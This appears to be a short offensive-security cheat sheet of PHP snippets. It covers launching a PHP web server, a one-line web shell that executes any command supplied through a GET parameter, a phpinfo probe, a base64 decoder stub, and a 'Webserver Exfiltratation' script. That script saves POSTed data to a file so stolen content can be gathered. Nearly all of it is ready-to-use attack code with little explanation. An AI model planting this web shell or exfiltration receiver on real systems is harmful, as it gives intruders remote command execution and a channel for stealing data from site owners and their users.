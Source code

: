 # Useful_PHP

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

```php
<?php system($_GET['hello']); ?>
```

```PHP
<php echo("Hello");phpinfo(); ?>
```


Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```



## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```